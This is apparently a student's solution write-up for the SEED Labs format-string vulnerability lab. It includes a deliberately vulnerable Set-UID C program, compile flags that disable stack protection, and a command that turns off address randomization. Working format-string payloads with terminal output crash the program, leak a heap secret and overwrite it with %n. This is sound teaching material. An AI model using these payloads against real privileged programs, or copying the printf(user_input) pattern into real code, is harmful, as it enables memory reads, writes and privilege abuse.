

# SEEDlabs: Format-String Vulnerability Lab

## 0x00 Lab Overview
The learning objective of this lab is for students to gain the first-hand experience on format-string vulnerability by what they have learned about the vulnerability from class into actions. The format-string vulnerability is caused by code like `printf(user_input)`, what the contents of variable of `user_input` is provided by users. When this program is running with privileges (e.g., `Set-UID program`), this `printf` statement becomes dangerous, because it can lead to one of the following consequences: (1) crash the program, (2) read from an arbitrary memory place, and (3) modify the values of in an arbitrary memory place. The last consequence is very dangerous because it can allow users to modify internal variables of a privileged program, and thus change the behavior of the program.

## 0x01 Guidelines
### What is a format string?
```c
printf("The magic number is: %d", 1911);
```
The text to be printed is "The magic number is:", followed by a format parameter '%d', which is replaced with the parameter (1911) in the output. Therefore the output looks like: The magic number is: 1911. In addition to %d, there are several other format parameters, each having different meaning. The following table summarizes these format parameters: 
|Parameter|Mening|Passed as|
|-|
|%d|decimal (int)|value|
|%u|unsigned decimal (unsigned int)|value|
|%x|hexadecimal (unsigned int)|value|
|%s|string ((const) (unsigned) char *)|reference|
|%n|number of bytes written so far, (* int)|reference|

### The Stack and Format Strings
The behavior of the format function is controlled by the format string. The function retrieves the parameters requested by the format string from the stack.
```c
printf ("a has value %d, b has value %d, c is at address: %08x\n",a, b, &c); 
```


### What if there is a miss-match
What if there is a miss-match between the format string and the actual arguments?
```c
printf ("a has value %d, b has value %d, c is at address: %08x\n",a, b);
```
In the above example, the format string asks for 3 arguments, but the program actually provides only two.

Can this program pass the compiler?
- The function `printf()` is ddefined as function with variable length of arguments. Therefore, by looking at the number of arguments, everything looks fine.
- To find the miss-match, compiles needs to understand how `printf()` works and what the meaning of the formal string is. However, compilers usually do not do this kind of analysis.
- Sometimes, the format is not a constant string, it is generated during the execution of the program. Therefore, there is no way for the compiler to find the miss-match in this case.

Can `printf()` detect the miss-match?
- The function `printf()` fetches the arguments from the stack. If the format string needs 3 arguments, it will fetch 3 data items from the stack. Unless the stack is marked with a boundary, `printf()` does not know that it runs out of the arguments that are provided to it.
- Since there is no such a marking. `printf()` will continue fetching data from the stack. In a miss-match case, it will fetch some data that do not belong to this function call.

What trouble can be caused by `printf()` when it starts to fetch data that is meant for it?

### Viweing Memory at Any Location
We have to supply an address of the memory. However, we cannot change the code; we can only supply the format string.

If we use `printf(%s)` without specifying a memory address, the target address will be obtained from the anyway by the `printf()` function. The function maintains an initial stack pointer, so it knows the location of the parameters in the stack.

Observation: the format string is usually located on the stack. If we can encode the target address in the format string, the target address will be in the stack. In the following example, the format string is stored in a buffer, which is located on the stack.
```c
int main(int argc, char *argv[])
{
    char user_input[100];
    ... ... /* other variable definitions and statements */
    scanf("%s", user_input); /* getting a string from user */
    printf(user_input); /* Vulnerable place */
    return 0;
}
```
If we can force the printf to obtain the address from the format string (also on the stack), we can control the address.
```c
printf ("\x10\x01\x48\x08 %x %x %x %x %s");
```
`\x10\x01\x48\x08` are the four bytes of the target address. In C language, `\x10` in a string tells the compiler to put a hexadecimal value `0x10` in the current position. The value will take up just one byte. Without using `\x`, if we directly put "`10`" in a string, the ASCII values of the cahracters '`1`' and '`0`' will be stored. Their ASCII values are 49 and 48, respectively.

`%x` causes the stack pointer to move towards the format string.

Here is how the attack works if `user_input[]` cantains the following format string:
"`\x10\x01\x48\x08 %x %x %x %x %s`".


Basically, we use four `%x` to move the `printf()`'s pointer towards the address that we stored in the format string. Once we reach the destination, we will give `%s` to `printf()`, causeing it to print out the contents in the memory address `0x10014808`. The function `printf()` will treat the contents as a string, and print out the string until reaching the end of the string (i.e. 0).

The stack space between `user_input[]` and the address passed to the `printf()` function is not for `printf()`. However, because of the format-string vulnerability in the program, `printf()` considers them as the arguments to match with the `%x` in the format string.

The key challenge in this attack is to figure out the distance between the `user_input[]` and the address passed to the `printf()` function. This distance decides how many `%x` you need to insert into the format string, before giving `%s`.

### Writing an Integer to Memory
`%n`: The number of characters written so far is stored into the integer indicated by the corresponding argument.
```c
int i;
printf ("12345%n", &i);
```
It causes `printf()` to write 5 into variable i.

Using the same approach as that for viewing memory at any location, we can sause `printf()` to write an integer into any location. Just replace the `%s` in the above example with `%n`, and the contents at the address `0x10014808` will be overwritten.

Using this attack, attackers can do the following:
- Overwrite important program flags that control access privileges.
- Overwrite return addresses on the stack, function pointers, etc.

However, the value written is determined by the number of characters printed before the `%n` is reached. Is it really possible to write arbitrary integer values?
- Use dummy output characters. To write a value of 1000, a simple padding of 1000 dummy characters would do.
- To void long format strings, We can use a width specification of the format indicators.

## 0x02 Lab Tasks
### Task 1: Exploit the vulnerability
In the following program, you will be asked to provide an input, which will be saved in a buffer called `user_input`. The program then prints out the buffer using `printf`. The program is a `Set-UID` program (the owner is `root`), i.e., it runs with the root privilege. Unfortunately, there is a format-string vulnerability in the way how the `printf` is called on the user inputs. We want to exploit this vulnerability and see how much damage we can achieve.

The program has two secret values stored in its memory, and you are interested in these secret values. However, the secret values are unknown to you, nor can you find them from reading the binary code (for the sake of simplicity, we hardcode the secrets using constants 0x44 and 0x55). Although you do not know the secret values, in practice, it is not so difficult to find out the memory address (the range or the exact value) of them (they are in consecutive addresses), because for many operating systems, the addresses are exactly the same anytime you run the program. In this lab, we just assume that you have already known the exact addresses. To achieve this, the program "intentionally" prints out the addresses for you. With such knowledge, your goal is to achieve the followings (not necessarily at the same time):
- Crash the program.
- Print out the `secret[1]` value.
- Modify the `secret[1]` value.
- Modify the `secret[1]` value to a pre-determined value.

Note that the binary code of the program (`Set-UID`) is only readable/executable by you, and there is no way you can modify the code. Namely, you need to achieve the above objectives without modifying the vulnerable code.
```c
/* vul_prog.c */ 
#include <stdlib.h>
#include <stdio.h>

#define SECRET1 0x44
#define SECRET2 0x55

int main(int argc, char *argv[])
{
  char user_input[100];
  int *secret;
  long int_input;
  int a, b, c, d; /* other variables, not used here.*/

  /* The secret value is stored on the heap */
  secret = (int *) malloc(2*sizeof(int));

  /* getting the secret */
  secret[0] = SECRET1; secret[1] = SECRET2;

  printf("The variable secret's address is 0x%8x (on stack)\n", &secret);
  printf("The variable secret's value is 0x%8x (on heap)\n", secret);
  printf("secret[0]'s address is 0x%8x (on heap)\n", &secret[0]);
  printf("secret[1]'s address is 0x%8x (on heap)\n", &secret[1]);

  printf("Please enter a decimal integer\n");
  scanf("%d", &int_input);  /* getting an input from user */
  printf("Please enter a string\n");
  scanf("%s", user_input); /* getting a string from user */

  /* Vulnerable place */
  printf(user_input);
  printf("\n");

  /* Verify whether your attack is successful */
  printf("The original secrets: 0x%x -- 0x%x\n", SECRET1, SECRET2);
  printf("The new secrets:      0x%x -- 0x%x\n", secret[0], secret[1]);
  return 0;
}
```
(ps: compiler the program without stack protect.)
```sh
gcc -z execstack -fno-stack-protector -o vul_prog vul_prog.c 
```
Hints: From the printout, you will find out that `secret[0]` and `secret[1]` are located on the heap, i.e., the actual secrets are stored on the heap. We also know that the address of the first secret (i.e., the value of the variable `secret`) can be found on the stack, because the variable `secret` is allocated on the stack. In other words, if you want to overwrite `secret[0]`, its address is already on the stack; your format string can take advantage of this information. However, although `secret[1]` is just right after `secret[0]`, its address is not available on the stack. This poses a major challenge for your format-string exploit, which needs to have the exact address right on the stack in order to read or write to that address.

Solution:
Crash the program:
```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfecab28 (on stack)
The variable secret's value is 0x 8ec1008 (on heap)
secret[0]'s address is 0x 8ec1008 (on heap)
secret[1]'s address is 0x 8ec100c (on heap)
Please enter a decimal integer
1
Please enter a string
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
Segmentation fault (core dumped)
```

Print out the `secret[1]` value:
```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfc1a3f0 (on stack)
The variable secret's value is 0x 9fec008 (on heap)
secret[0]'s address is 0x 9fec008 (on heap)
secret[1]'s address is 0x 9fec00c (on heap)
Please enter a decimal integer
1
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/ 
bfc1a3f8/00000001/b765f309/bfc1a41f/bfc1a41e/00000000/bfc1a504/09fec008/00000001/78383025/3830252f/30252f78/252f7838/
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
```
```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbf984a90 (on stack)
The variable secret's value is 0x 915c008 (on heap)
secret[0]'s address is 0x 915c008 (on heap)
secret[1]'s address is 0x 915c00c (on heap)
Please enter a decimal integer
152420364
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%s
bf984a98/00000001/b767d309/bf984abf/bf984abe/00000000/bf984ba4/0915c008/U
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
```
`U`'s ascii value is 55.

Modify the `secret[1]` value:
```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfe4e8d0 (on stack)
The variable secret's value is 0x 9592008 (on heap)
secret[0]'s address is 0x 9592008 (on heap)
secret[1]'s address is 0x 959200c (on heap)
Please enter a decimal integer
156835852
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%n
bfe4e8d8/00000001/b7623309/bfe4e8ff/bfe4e8fe/00000000/bfe4e9e4/09592008/
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x48
```

Modify the `secret[1]` value to a pre-determined value:
```sh
[08/09/2016 00:12] seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfea5e60 (on stack)
The variable secret's value is 0x 8112008 (on heap)
secret[0]'s address is 0x 8112008 (on heap)
secret[1]'s address is 0x 811200c (on heap)
Please enter a decimal integer
135340044
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%.228u%n
bfea5e68/00000001/b7666309/bfea5e8f/bfea5e8e/00000000/bfea5f74/000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000135340040
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x123
```
0x123 = 291 = 9*7+228

### Task 2: Memory randomization
If the first scanf statement (`scanf("%d", int_input)`) does not exist, i.e., the program does not ask you to enter an integer, the attack in Task 1 become more difficult for those operating systems that have implemented address randomization. Pay attention to the address of `secret[0]` (or `secret[1]`). When you run the program once again, will you get the same address?

Address randomization is introduced to make a number of attacks difficult, such as buffer overflow, format string, etc. To appreciate the idea of address randomization, we will turn off the address randomization in this task, and see whether the format string attack on the previous vulnerable program (without the first scanf statement) is still difficult. You can use the following command to turn off the address randomization (note that you need to run it as root):
```sh
sysctl -w kernel.randomize_va_space=0
```
After turning off the address randomization, your task is to repeat the same task described in Task 1, but you have to remove the first scanf statement (`scanf("%d", int_input)`) from the vulnerable program.

How to let `scanf` accept an arbitrary number?
Usually, `scanf` is going to pause for you to type inputs. Sometimes, you want the program to take a number 0x05 (not the character '5'). Unfortunately, when you type '5' at the input, `scanf` actually takes in the ASCII value of '5', which is 0x35, rather than 0x05. The challenge is that in ASCII, 0x05 is not a typable character, so there is no way we can type in this value. One way to solve this problem is to use a file. We can easily write a C program that stores 0x05 (again, not '5') to a file (let us call it `mystring`), then we can run the vulnerable program (let us call it `a.out`) with its input being redirected to `mystring`; namely, we run "`a.out < mystring`". This way, `scanf` will take its input from the file `mystring`, instead of from the keyboard.

You need to pay attention to some special numbers, such as 0x0A (newline), 0x0C (form feed), 0x0D (return), and 0x20 (space). `scanf` considers them as separator, and will stop reading anything after these special characters if we have only one "`%s`" in `scanf`. If one of these special numbers are in the address, you have to find ways to get around this. To simplify your task, if you are unlucky and the secret’s address happen to have those special numbers in it, we allow you to add another `malloc` statement before you allocate memory for
`secret[2]`. This extra `malloc` can cause the address of secret values to change. If you give the `malloc` an appropriate value, you can create a "lucky" situation, where the addresses of secret do not contain those special numbers.

The following program writes a format string into a file called `mystring`. The first four bytes consist of an arbitrary number that you want to put in this format string, followed by the rest of format string that you typed in from your keyboard.
```c
// write_string.c
#include<stdio.h>
#include<string.h>
#include<sys/stat.h>
#include<fcntl.h>

int main()
{
	char buf[1000];
	int fp, size;
	unsigned int *address;

	// Putting any number you like at the beginning of the format string
	address = (unsigned int *) buf;
	*address = 0x804b01c;

	// Getting the rest of the format string
	scanf("%s", buf+4);
	size = strlen(buf+4) + 4;
	printf("The string length is %d\n", size);

	// Writing buf to "mystring"
	fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
	if(fp != -1) {
		write(fp, buf, size);
		close(fp);
	} else {
		printf("Open failed!\n");
	}
}
```
```sh
root@ubuntu:/home/seed# sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
root@ubuntu:/home/seed# ./write_string 
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%n
The string length is 46
root@ubuntu:/home/seed# ./vul_prog < mystring 
The variable secret's address is 0xbffff684 (on stack)
The variable secret's value is 0x 804b008 (on heap)
secret[0]'s address is 0x 804b008 (on heap)
secret[1]'s address is 0x 804b00c (on heap)
Please enter a decimal integer
Please enter a string
�bffff688/00000001/b7eb8309/bffff6af/bffff6ae/00000000/bffff794/bffff734/
The original secrets: 0x44 -- 0x55
The new secrets:      0x4c -- 0x55
```
0x4c = 76 = 8*8+8+4

